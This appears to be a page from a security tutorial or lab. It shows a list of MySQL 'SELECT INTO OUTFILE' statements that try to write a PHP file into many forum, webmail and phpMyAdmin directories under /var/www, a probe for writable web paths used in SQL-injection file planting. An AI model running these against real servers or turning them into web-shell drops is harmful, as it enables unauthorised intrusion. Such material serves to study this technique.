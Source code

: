 ```
select "test" into outfile "/var/www/forum//injected_file.php";
select "test" into outfile "/var/www/forum/index/injected_file.php";
select "test" into outfile "/var/www/forum//injected_file.php";
select "test" into outfile "/var/www/forum/templates_c/injected_file.php";
select "test" into outfile "/var/www/webmail/help/injected_file.php";
select "test" into outfile "/var/www/webmail//injected_file.php";
select "test" into outfile "/var/www/webmail/images/injected_file.php";
select "test" into outfile "/var/www/webmail/themes/injected_file.php";
select "test" into outfile "/var/www/webmail/plugins/injected_file.php";
select "test" into outfile "/var/www/webmail/src/injected_file.php";
select "test" into outfile "/var/www/webmail/include/injected_file.php";
select "test" into outfile "/var/www/webmail/config/injected_file.php";
select "test" into outfile "/var/www/webmail/class/injected_file.php";
select "test" into outfile "/var/www/webmail/functions/injected_file.php";
select "test" into outfile "/var/www/webmail/po/injected_file.php";
select "test" into outfile "/var/www/webmail/locale/injected_file.php";
select "test" into outfile "/var/www/webmail//injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/themes/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/js/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/libraries/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/setup/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/locale/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin//injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/pmd/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin//injected_file.php";
select "test" into outfile "/var/www///injected_file.php";
```

![](./pics/36.png)
